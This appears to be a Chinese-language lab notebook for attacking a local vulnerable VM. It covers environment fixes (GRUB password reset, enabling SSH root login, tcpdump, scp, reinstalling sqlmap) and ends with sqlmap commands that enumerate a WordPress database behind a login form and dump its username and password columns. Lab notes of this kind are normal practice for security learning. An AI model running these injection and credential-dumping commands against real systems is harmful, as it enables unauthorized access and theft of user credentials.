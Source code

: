 # 参考
* https://www.freebuf.com/column/162631.html
* https://www.jianshu.com/p/63becdb8c2f8
# 一些环境问题
* 破解密码(为什么要破解是当时俩台虚拟机不在同一个虚拟软件上一直没有扫到对应mac的主机)。
* 1.在没有进入引导前光标切进去长按shift进入grub。
* 2.安装open-server 
* sudo apt-get update 
*  sudo apt-get install openssh-server  
* ps -e | grep ssh
* sudo /etc/init.d/ssh resart
* 3.开启ssh root登录。
* 4.用tcpdump
* tcpdump -D 
* tcpdump -i eth0 -w file.cap
* 5.用scp
* scp root@107.172.27.254:/home/test.txt .   //下载文件
* 
* scp test.txt root@107.172.27.254:/home  //上传文件
* 
* scp -r root@107.172.27.254:/home/test .  //下载目录
* 
* scp -r test root@107.172.27.254:/home   //上传目录
* 6.鞋机我这只能用vmbox打开了，vmware是一直报错，然后俩个不同的虚拟机可能网段不一样，按理全选桥接应该是一个网段的但是有时也不一样，我就一直重启直到俩个虚拟机网段一样，实现不行用vmbox也跑kali(vmware桥接无法分配ip 找到编辑->虚拟机网络编辑器->找到桥接模式那一行的外部链接要选种主机的网卡)。
* 7.鞋机apache2服务器有问题，8080与443端口没打开，我就直接翻他的配置文件了，在 /etc/apache2/sites-available/000-default.conf 中有 /var/www/html。
* 8.sqlmap无法更新
* 解决方法： 找到sqlmap的路径/usr/share/salmap
* 
* 执行 cd /usr/share/
* 
* 然后删掉sqlmap   rm -rf sqlmap/
* 
* 然后执行 git clone https://github.com/sqlmapproject/sqlmap
* 
* 克隆到路径即可。

# sqlmap 语句
* 开始扫描漏洞
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3
* 开始扫描数据库
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 --dbs
* 指定数据库扫数据库表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 --tables
* 指定数据库表扫字段
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users--columns
* 指定字段dump表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users -C "password,username" --dump
